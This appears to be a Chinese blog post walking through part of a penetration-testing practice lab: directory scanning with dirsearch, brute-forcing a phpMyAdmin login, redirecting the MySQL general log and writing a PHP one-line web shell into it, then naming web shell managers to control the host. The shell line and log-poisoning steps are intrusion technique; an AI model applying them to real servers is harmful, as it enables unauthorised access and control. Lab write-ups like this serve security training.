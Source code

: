 +++
title = 'Part3.对目标web服务器进行目录扫描和密码爆破'
date = 2024-10-10T11:34:24+08:00
draft = true

categories = [ '渗透测试']

tags = ['hongrisec_1靶场']

weight = 108

+++

# Part3.对目标web服务器进行目录扫描和密码爆破

### 使用dirsearch工具进行目录扫描

![image-20240912195755364](https://gitee.com/huangzejie/drawing-bed/raw/master/202409121957614.png)

因为通过前面的nmap端口扫描，我们已经发现了80端口是开放的，所以我们就可以接着使用dirsearch工具对这个ip地址网站进行目录扫描，看看哪些网站可以登录

![image-20240912195809141](https://gitee.com/huangzejie/drawing-bed/raw/master/202409121958242.png)

### 针对phpMyAdmin网站进行密码爆破

这里的index.php网站登录进去可以知道这个这个网站是php探针，针对这个网站，我们就可以进行phpadmin爆破

![image-20240912200133756](https://gitee.com/huangzejie/drawing-bed/raw/master/202409122001813.png)

将网址保存到txt文件中，再通过导入网址，读取txt，就可以进行密码爆破，这里爆破成功的是root，root

![image-20240912200315437](https://gitee.com/huangzejie/drawing-bed/raw/master/202409122003571.png)

这样我们就成功登录服务器后台

### 通过mysql命令更改日志，植入木马

之后我们就可以进行日志中放木马的方式去控制这个主机

所以，首先我们要查询到日志文件的位置

![image-20240912200532363](https://gitee.com/huangzejie/drawing-bed/raw/master/202409122005460.png)

这里可以发现这个系统日志是关闭的

![image-20240912200656232](https://gitee.com/huangzejie/drawing-bed/raw/master/202409122006347.png)

![image-20240913094453158](https://gitee.com/huangzejie/drawing-bed/raw/master/202409130944190.png)

![image-20240912201408947](https://gitee.com/huangzejie/drawing-bed/raw/master/202409122014591.png)

将日志文件设置为自己创建的文件

![image-20240913093810029](https://gitee.com/huangzejie/drawing-bed/raw/master/202409130938119.png)

再查看一下是否更改成功

![image-20240913094416274](https://gitee.com/huangzejie/drawing-bed/raw/master/202409130944324.png)

已经成功

### 在日志中写入木马

```shell
select '<?php eval($ POST[1]); ?>';
```
这句话是[一句话木马]()


![image-20240913095459564](https://gitee.com/huangzejie/drawing-bed/raw/master/202409130954653.png)

在mysql中运行，就会被记录在日志里

![image-20240913100028312](https://gitee.com/huangzejie/drawing-bed/raw/master/202409131000413.png)

代码审计，打开web服务器文件查看

![image-20240913100502842](https://gitee.com/huangzejie/drawing-bed/raw/master/202409131005916.png)

接下来如何控制别人电脑呢？

可以根据web服务器使用的编程语言和框架选择性地使用以下工具：

1. AntSword（php）
2. 哥斯拉（php，java）
3. 冰蝎（java）